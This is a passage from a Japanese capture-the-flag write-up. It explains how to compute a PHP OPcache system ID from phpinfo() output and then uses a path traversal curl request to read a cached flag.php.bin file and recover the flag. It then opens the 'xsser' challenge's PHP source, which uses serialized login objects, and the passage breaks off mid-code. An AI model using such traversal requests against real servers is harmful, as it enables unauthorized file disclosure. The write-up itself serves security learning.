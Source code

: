 `flag.php` のキャッシュもこのディレクトリに存在していたりしないでしょうか。

キャッシュのパスは `/var/www/cache/(システム ID)/(ファイルのパス).bin` のようになっています。システム ID は PHP のバージョンやアーキテクチャなどの情報から計算されています。

`phpinfo()` からどのようにシステム ID を計算すればよいか調べていたところ、[ptr-yudai](https://twitter.com/ptrYudai) さんが [`GoSecure/php7-opcache-override`](https://github.com/GoSecure/php7-opcache-override) というツールで計算していました。

```
PHP version : 7.2.24-0ubuntu0.18.04.6
Zend Extension ID : API320170718,NTS
Zend Bin ID : BIN_SIZEOF_CHAR48888
Assuming x86_64 architecture
------------
System ID : e2c6579e4df1d9e77e36d2f4ff8c92b3
PHP lower than 7.4 detected, an alternate Bin ID is possible:
Alternate Zend Bin ID : BIN_148888
Alternate System ID : 810741a4fc47bd39ce6351462f6db6c6
```

システム ID は `e2c6579e4df1d9e77e36d2f4ff8c92b3` のようです。ということは `flag.php` のキャッシュのパスは `/var/www/cache/e2c6579e4df1d9e77e36d2f4ff8c92b3/var/www/html/flag.php.bin` でしょうか。

`http://(省略)/index.php?eba1b61134bf5818771b8c3203a16dc9=../../../../../../../var/www/cache/e2c6579e4df1d9e77e36d2f4ff8c92b3/var/www/html/flag.php.bin` にアクセスしてみましょう。

```
$ curl 'http://(省略)/index.php?eba1b61134bf5818771b8c3203a16dc9=../../../../../../../var/www/cache/e2c6579e4df1d9e77e36d2f4ff8c92b3/var/www/html/flag.php.bin' | strings | grep 3k
3k{Hail_the3000_years_7hat_are_b3h1nd}
```

フラグが得られました。

```
3k{Hail_the3000_years_7hat_are_b3h1nd}
```

## [Web 499] xsser (4 solves)
> (URL)

与えられた URL にアクセスすると、以下のような PHP コードが表示されました。

```php
<?php
include('flag.php');
class User

{
    public $name;
    public $isAdmin;
    public function __construct($nam)
    {
        $this->name = $nam;
        $this->isAdmin=False;
    }
}

ob_start();
if(!(isset($_GET['login']))){
    $use=new User('guest');
    $log=serialize($use);
    header("Location: ?login=$log");
    exit();

}

$new_name=$_GET['new'];
if (isset($new_name)){
```